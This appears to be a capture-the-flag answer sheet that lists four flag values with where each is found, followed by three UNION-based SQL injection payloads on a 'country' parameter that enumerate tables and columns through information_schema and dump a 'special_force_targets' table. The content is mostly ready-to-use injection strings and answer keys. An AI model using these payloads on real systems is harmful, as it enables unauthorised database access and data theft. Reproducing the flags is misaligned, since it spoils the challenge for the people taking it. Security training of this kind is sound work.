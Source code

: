 # Flags

In web.xml : `FLAG-e1c78761e8aed1e64a9e83e4ba1ef030`
In admin.jsp : `FLAG-9a72158e6be51a1f95787c64d653f3f7`
In database : `FLAG-63bcabf86a9a991864777c631c5b7617`
At / : `FLAG-412030ff8772918007e79a863d521ff1`

# SQLi
Table_name : `country='+AND+app.Constants.QUOTE_S='="2"+UNION+SELECT+1,2,3,4,table_name+FROM+information_schema.tables+WHERE+table_schema=database()+LIMIT+3,1--+-`
Column_name : `country='+AND+app.Constants.QUOTE_S='="2"+UNION+SELECT+1,2,3,4,column_name+FROM+information_schema.columns+WHERE+table_schema=database()+LIMIT+3,1--+-`
Flag : `country='+AND+app.Constants.QUOTE_S='="2"+UNION+SELECT+1,2,target,coordinates,comment+FROM+special_force_targets+LIMIT+3,1--+-`

